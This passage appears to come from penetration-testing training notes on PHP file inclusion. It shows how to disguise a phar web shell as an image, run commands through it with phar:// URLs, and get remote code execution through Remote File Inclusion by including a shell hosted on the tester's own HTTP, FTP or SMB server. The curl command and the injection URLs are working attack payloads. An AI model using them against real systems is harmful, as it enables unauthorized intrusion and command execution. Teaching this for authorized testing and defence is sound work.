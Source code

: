 This script can be compiled into a phar file that when called would write a web shell to a shell.txt sub-file, which we can interact with. We can compile it into a phar file and rename it to shell.jpg as follows:
```bash
$ php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```

Now, we should have a phar file called shell.jpg. Once we upload it to the web application, we can simply call it with phar:// and provide its URL path, and then specify the phar sub-file with /shell.txt (URL encoded) to get the output of the command we specify with (&cmd=id), as follows:
```
http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id
```

# Remote File Inclusion (RFI)
in some cases, we may also be able to include remote files "Remote File Inclusion (RFI)", if the vulnerable function allows the inclusion of remote URLs. This allows two main benefits:

- Enumerating local-only ports and web applications (i.e. SSRF)
- Gaining remote code execution by including a malicious script that we host

## Verify RFI
In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, any remote URL inclusion in PHP would require the allow_url_include setting to be enabled. We can check whether this setting is enabled through LFI  as we did previous. 

However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to try and include a URL, and see if we can get its content. At first, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (http://127.0.0.1:80/index.php) as our input string and see if it gets included:

### Remote Code Execution with RFI
The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell.

Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like 80 or 443, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service.

### HTTP/FTP
If the server requires valid authentication, then the credentials can be specified in the URL, as follows:
```bash
$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

### SMB
```bash
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```
